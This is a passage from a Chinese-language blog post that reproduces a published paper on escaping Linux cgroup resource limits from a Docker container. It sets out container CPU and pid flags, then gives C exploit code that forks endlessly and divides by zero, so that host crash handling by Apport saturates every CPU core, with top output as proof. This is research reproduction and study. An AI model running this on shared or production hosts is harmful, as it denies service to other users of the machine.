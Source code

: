 * *--cpuset-cpus* 指定了 container 运行在哪个 cpu core 上，可以指定单个或者多个
* *--cpus* 指定了 container 可以使用 cpu 资源的上限，举例来说，上述语句里面的值为 0.1，那么 container 可以使用的 cpu 资源上限就是 10%，也可以用 *--cpu-period* 和 *--cpu-quota* 捆绑使用来[实现相同的功能]( https://docs.docker.com/engine/reference/run/#cpu-period-constraint )[^note6]
* *--pids-limit* 指定了进程数目的上线，一旦超过这个上限，就会返回 *fork: Interrupted system call* 的错误信息
* 剩下的 *-v* 是文件映射，为了执行在 Host 上编译生成的文件



接下来需要做的是编写 exploit code，用来制造 faults 从而实现 escape from parrent cgroup。

编写的文件如下

```c
#include <stdio.h>
#include <unistd.h>
#include<sys/wait.h> 
#include<sys/types.h> 
int main()
{
    while(1) {
        int pid = fork();
        if(pid == 0) {
            int i = 1 / 0;
            return 0;
        }
        // ignore the SIGCHLD signal
        signal(SIGCHLD,SIG_IGN);
    }
    return 0;
}
```

逻辑很简单，父进程在不停的循环执行 fork 操作，而成功生成的子进程则负责执行 *div 0* 操作引发 faults。其中 ignore `SIGCHLD  `信号的原因参考[这篇文章](https://tianyuzhou.top/2019/10/21/fork-in-c/)。具体产生的 fault 如下

```
Floating point exception(core dumped)
```

将该文件编译好之后，可以尝试运行，但由于会不断的制造 fault，造成 Host 的 cpu 直接被占满，我在实验的时候根本就无法进行后续操作了，只能重启电脑。

按照论文里面的说法，对于 Ubuntu 而言，处理这些 faults 的应用是 *Apport*，因此在我们执行这个程序的时候，Apport 进程将会大量产生，从而占满 cpu。

下面的是运行 top 命令对于该文件运行时的监控

```
top - 16:46:18 up  2:02,  1 user,  load average: 15.93, 4.08, 1.68
Tasks: 470 total,  55 running, 319 sleeping,   0 stopped,   1 zombie
%Cpu0  : 84.7 us, 15.3 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu1  : 93.2 us,  6.8 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu2  : 94.1 us,  5.9 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu3  : 92.2 us,  7.8 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu4  : 91.5 us,  8.5 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu5  : 89.9 us, 10.1 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu6  : 92.5 us,  7.5 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu7  : 91.2 us,  8.8 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu8  : 91.9 us,  8.1 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu9  : 92.2 us,  7.8 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu10 : 91.9 us,  8.1 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
%Cpu11 : 91.6 us,  8.4 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
KiB Mem : 16212396 total, 10905352 free,  3395860 used,  1911184 buff/cache
KiB Swap:  2097148 total,  2097148 free,        0 used. 12426024 avail Mem 

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND
 7647 root      20   0    4372   1080   1008 R   8.9  0.0   0:01.63 pppp
26842 root      20   0   98756  24208  11808 R   4.3  0.1   0:00.13 apport
26847 root      20   0   98236  23900  11752 R   3.9  0.1   0:00.12 apport
26852 root      20   0   98236  23004  11356 R   3.9  0.1   0:00.12 apport
```

[^note1]:  cgroup man page: http://man7.org/linux/man-pages/man7/cgroups.7.html.
[^note2]: Gao, Xing, et al. "Houdini’s Escape: Breaking the Resource Rein of Linux Control Groups." (2019).
[^note3]: The 26th ACM Conference on Computer and Communications Security in **London, United Kingdom from November 11 to November 15, 2019**.
[^note4]: Docker installation and configuration: https://tianyuzhou.top/wiki/docker-install/.
[^note6]: Docker container cpu period constaint: https://docs.docker.com/engine/reference/run/#cpu-period-constraint.